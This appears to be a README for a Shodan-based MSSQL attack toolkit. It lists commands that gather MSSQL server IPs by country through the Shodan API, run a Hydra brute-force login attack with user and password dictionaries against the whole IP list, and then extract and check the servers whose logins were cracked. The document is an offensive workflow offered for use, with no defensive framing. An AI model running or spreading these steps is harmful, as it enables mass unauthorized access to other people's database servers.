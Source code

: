 # ShodanAtk
## mssqlatk

### Setup your own api_key
00mssqltopcountry.py(optional)&01mssqlcollector.py

### Top 50 country
c:\mssql\> 00mssqltopcountry.py \> mssqltop50.txt

### Collector ip list
c:\mssql\> 01mssqlcollector.py 1 30

### Hydra Attack
root@kali2016:~/mssql# hydra -L sqluser.dic -P sqlpass.dic -t 30 -M ip.txt mssql

### Extractor mssql list
c:\mssql\> 02mssqlextractor.py iprst.txt \> mssql.txt

### Check mssql
c:\mssql\> 03mssqlchecker.py mssql.txt \> mssqlstatus.txt

